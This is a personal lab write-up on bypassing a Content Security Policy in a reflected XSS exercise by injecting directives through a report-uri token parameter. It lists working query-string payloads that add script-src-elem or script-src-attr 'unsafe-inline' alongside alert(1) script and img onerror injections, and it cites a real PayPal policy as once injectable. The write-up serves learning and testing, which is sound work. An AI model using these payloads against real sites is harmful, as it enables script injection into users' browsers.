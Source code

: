 # Lab: Reflected XSS protected by CSP, with CSP bypass

## Objective:

- Find a way to bypass the CSP policy and show an alert using XSS.

## Key Concepts:

- **report-uri** is a directive that usually reflects user entered value at some
  place.
- **report-uri** directive is usually always at the last of the CSP directives.
- If you can get hold of how the value of this directive is being set by user,
  you can inject new policies.
- Its not possible to override existing directives with new ones.
- Recent versions of Chrome introduced a new directive **script-src-elem** ,
  which controls the **script** elements but not events.
- **script-src-elem** directive override existing **script-src** directives.
- For **script-src-elem** directive, any **script** tag will be blocked, but
  execution of javascript through an even handler will be allowed:

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

```javascript
<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

**allowing javascript execution using inline script tags**

```html
Content-Security-Policy: script-src-elem 'unsafe-inline';
```

```javascript
<script>alert("This will be allowed")</script>
<a href="#" onclick="alert('This will be blocked')">test</a>
```

## Steps Taken:

1. Understand the different ways to exploit the CSP.
2. Analyse if in the CSP content, there is any **report-uri** directive usually
   in the last.
3. Analyze the directive value is an endpoint followed up by a query parameter
   **token**,

```html
Content-Security-Policy: default-src 'self'; object-src 'none';script-src
'self'; style-src 'self'; report-uri /csp-report?token=
```

4. Try passing a key value pair of **token=[some value]** in the web url and
   observe the response CSP content.

5. Use ;[space] to add a new directive after the **report-uri** directive.
6. append directive **script-src-elem** to override **script-src** directive and
   allow javascript inline executio using **script** tag or **script-src-attr**
   to allow javascript inline execution from an attribute.
7. use the script tag or attribute

## Payloads Used:

**execute javascript from script tag**

```html
?token=anything; script-src-elem 'unsafe-inline'; &search=
<script>
  alert(1);
</script>
```

```html
?search=
<script>
  alert(1);
</script>
&token=anything; script-src-elem 'unsafe-inline';
```

**execute javascript from attribute**

```html
?token=anything; script-src-attr 'unsafe-inline'; &search=
<img
  src="0"
  onerror="alert(1)" />
```

```html
?search=
<img
  src="0"
  onerror="alert(1)" />&token=anything; script-src-attr 'unsafe-inline';
```

## Issues Encountered:

- Issue while inserting token query parameter along with the search one.
- Was only trying with **script-src-elem** directive set to **none**, and was
  using the payload of **script-src-attr**

## Solutions/Workarounds:

- Use burp repeater and update the parameters using the request parameters
  section and convert to URL encoding to avoid breaking the URL.

## Takeaways:

- Edge handles the CSP directives differently, if we can make the directive
  syntax error like inserting **:\_** it will be an invalid directive syntax.
  And edge will no longer follow the CSP.
- Try to find any value in a directive where, even if any partial content can be
  set by user, then we can try manipulating it. For example, paypal used to put
  a get parameter called **token** inside **report-uri** directive.
- if you can find any key value pair in the **report-uri** in format **key=**
  then try to set a value using query parameters.

```html
Content-Security-Policy: default-src 'self' https://*.paypal.com
https://*.paypal.com:* https://*.paypalobjects.com 'unsafe-eval';connect-src
'self' https://*.paypal.com https://nexus.ensighten.com
https://*.paypalobjects.com;frame-src 'self' https://*.paypal.com
https://*.paypalobjects.com https://*.cardinalcommerce.com;script-src
https://*.paypal.com https://*.paypalobjects.com 'unsafe-inline'
'unsafe-eval';style-src 'self' https://*.paypal.com https://*.paypalobjects.com
'unsafe-inline';img-src https: data:;object-src 'none'; report-uri
/webapps/xoonboarding/api/log/csp?token=SOMETOKEN;_
```

## Useful Links

[Bypassing CSP with policy injection - article](https://portswigger.net/research/bypassing-csp-with-policy-injection)
[Chrome CSP bypass using policy injection - POC ](https://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22https://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)
